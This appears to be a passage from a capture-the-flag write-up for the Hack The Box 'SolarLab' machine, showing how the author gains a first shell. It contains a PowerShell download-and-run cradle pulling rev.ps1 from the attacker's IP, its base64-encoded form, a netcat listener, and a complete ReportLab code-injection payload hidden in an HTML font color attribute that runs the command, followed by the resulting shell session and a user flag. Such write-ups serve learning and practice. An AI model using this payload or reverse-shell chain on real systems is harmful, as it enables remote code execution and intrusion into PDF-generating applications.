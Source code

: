Got the callback, it worked

![](/assets/obsidian/a25ef4dabc2826568c7c12257f3e76a7.png)

Get a shell

```bash
┌──(bravosec㉿fsociety)-[~/www]
└─$ python ~/scripts/windows/powershell_base64.py <(echo "iex (new-object net.webclient).DownloadString('http://10.10.14.21/rev.ps1')")
powershell -ep bypass -nop -e aQBlAHgAIAAoAG4AZQB3AC0AbwBiAGoAZQBjAHQAIABuAGUAdAAuAHcAZQBiAGMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQAwAC4AMQAwAC4AMQA0AC4AMgAxAC8AcgBlAHYALgBwAHMAMQAnACkACgA=
```

```bash
┌──(bravosec㉿fsociety)-[~/htb/SolarLab]
└─$ rlwrap -cAr nc -lvnp 1111
listening on [any] 1111 ...
```

- Payload

```html
<para><font color="[[[getattr(pow, Word('__globals__'))['os'].system('powershell -ep bypass -nop -e aQBlAHgAIAAoAG4AZQB3AC0AbwBiAGoAZQBjAHQAIABuAGUAdAAuAHcAZQBiAGMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQAwAC4AMQAwAC4AMQA0AC4AMgAxAC8AcgBlAHYALgBwAHMAMQAnACkACgA=') for Word in [ orgTypeFun( 'Word', (str,), { 'mutated': 1, 'startswith': lambda self, x: 1 == 0, '__eq__': lambda self, x: self.mutate() and self.mutated < 0 and str(self) == x, 'mutate': lambda self: { setattr(self, 'mutated', self.mutated - 1) }, '__hash__': lambda self: hash(str(self)), }, ) ] ] for orgTypeFun in [type(type(1))] for none in [[].append(1)]]] and 'red'">
GG
</font></para>
```

```bash
connect to [10.10.14.21] from (UNKNOWN) [10.129.119.197] 56678
Windows PowerShell
Copyright (C) 2013 Microsoft Corporation. All rights reserved.

PS C:\Users\blake\Documents\app> whoami
solarlab\blake
PS C:\Users\blake\Documents\app> cat C:\Users\blake\Desktop\user.txt
fcf90fec2ff08e7f21a5fc4d59117dcb
```
